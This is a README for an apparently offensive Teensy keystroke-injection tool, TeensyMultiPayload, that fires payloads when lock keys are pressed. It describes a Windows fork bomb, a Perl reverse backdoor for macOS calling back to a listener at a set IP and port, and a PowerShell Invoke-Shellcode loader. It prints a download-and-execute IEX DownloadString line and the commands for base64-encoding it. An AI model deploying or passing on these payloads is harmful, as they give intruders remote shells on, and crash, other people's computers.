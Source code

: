 # TeensyMultiPayload
TeensyMultiPayload is a program for the [Teensy] (https://www.pjrc.com/teensy/) that allows you to execute multiple payloads for multiple operating systems in seconds with different key presses.

The examples left in the code are a PowerShell command ready to be modified for Invoke-Shellcode, a fork bomb to crash windows, and a perl backdoor for OSX.
The program is entirely configurable for your own needs.
All you need to do to run the payloads after flashing is, plug in the Teensy, wait for the Teensy's LED to blink, then press CAPS LOCK, SCROLL LOCK, or NUM LOCK on the keyboard then each matching payload will execute.

To set up the perl backdoor replace 10.0.0.17:999 with your server IP address and port running a listener of some sort. Possibly netcat or Metasploit.
The fork bomb is all set and should work on all windows computers XP and up.
To generate the Invoke-Shellcode encoded command for PowerShell, modify and execute the below commands on Linux or Cygwin then replace READ_README in TeensyMultiPayload with the output.
For more information on Invoke-Shellcode see: https://github.com/PowerShellMafia/PowerSploit

``scriptblock="IEX (New-Object Net.WebClient).DownloadString(‘Change_To_Your_InvokeShellcode_URL’);"``

``encode="`echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0`"``

``echo $encode``
